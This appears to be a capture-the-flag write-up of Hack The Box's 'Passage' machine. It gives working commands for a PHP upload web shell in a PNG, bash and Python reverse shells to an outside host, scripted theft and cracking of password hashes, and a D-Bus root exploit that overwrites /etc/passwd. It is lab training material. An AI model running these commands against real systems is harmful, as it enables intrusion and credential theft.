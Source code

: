# [Passage](https://app.hackthebox.com/machines/Passage)

```bash
nmap -p- --min-rate 10000  10.10.10.206 
```

![Alt text](img/image.png)


After knowing open ports(22,80), we do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.206 -Pn
```

![Alt text](img/image-1.png)


We find interesting CMS from source code of page.

![Alt text](img/image-2.png)


Let's browse here, it is News Management System.

![Alt text](img/image-3.png)


Let's search register and try to enumerate web application.

![Alt text](img/image-4.png)


From here, I understand that maybe we can upload malicious file into uploads folder, then got reverse shell .

Let's try.

1. We need to  have one .png file
2. Using `exiftool` command , I batch reverse shell script into this .png file, while browsing this image, I can execute commands.

![Alt text](img/image-5.png)

While uploading, I need to change filetype into '.php' as execution purposes.


Let's upload ,browse the file and see the result.

![Alt text](img/image-6.png)

Here's what, we can execute commands.


Let's add our reverse shell into cmdlet position.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.5/1337 0>&1'
```

But above one, doesn't work, that's why I changed into Python as below.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Alt text](img/image-7.png)

![Alt text](img/image-8.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-9.png)

From source code [analysis](https://github.com/CuteNews/cutenews-2.0/blob/d5dd74227b888644a72799641ce35b2e711e276f/core/db/coreflat.php#L241), we see that "/var/www/html/CuteNews/cdata/users" there are files about users of CMS.

These file's names generated due to **username** field

![Alt text](img/image-10.png)


That's why, let's look at our username's MD5 hash.
```bash
echo -n dr4ks | md5sum
```

![Alt text](img/image-11.png)


As you it starts with 66, that's why **66.php** file belongs to us.
Let's read this file try to extract some info.

![Alt text](img/image-12.png)

From this data, we learn that it holds **Deserialized Data**, file reading this file via **base64** decoding.

We see that our password is **hashed** and we know that hash type is **SHA-256**


Let's learn all user's passwords.
```bash
curl -s http://10.10.10.206/CuteNews/cdata/users/lines | grep -v "php die" | while read line; do decode=$(echo $line | base64 -d); email=$(echo $decode | grep -Po '\w+@\w+\.\w+'); hash=$(echo $decode | grep -Po '\w{64}'); if [ -n "$hash" ]; then echo "$email:$hash"; fi; done
```

![Alt text](img/image-13.png)


From here, let's grab password of '**paul**' user.
```bash
hashcat -m 1400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-14.png)

paul: atlanta1


user.txt

![Alt text](img/image-15.png)


We find the user nadav in the authorized_keys under the .ssh folder. So nadav can ssh into user paul without password. So maybe paul can do that too? Paul and Nadav seems close friends, huh?

We try ssh ing into nadav from paul and succeed!

![Alt text](img/image-16.png)

```bash
ssh nadav@10.10.10.206
```


![Alt text](img/image-17.png)



After enumeration, I see some interesting stuff from '.viminfo' file.

![Alt text](img/image-18.png)

I found such privilege escalation [technique](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) from internet


Let's do this.

```bash
cd /dev/shm
cp /etc/passwd passwd
openssl passwd -1 dr4ks
echo 'dr4ks:$1$l4yliEno$q.LdnO8/jhMGmzEypOtj10:0:0:pwned:/root:/bin/bash' >> passwd 
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/passwd /etc/passwd true
()
```

After these operaitons, we check we are root user or not
```bash
tail -3 /etc/passwd
```

![Alt text](img/image-19.png)


Yes, we are root user already.


root.txt

![Alt text](img/image-20.png)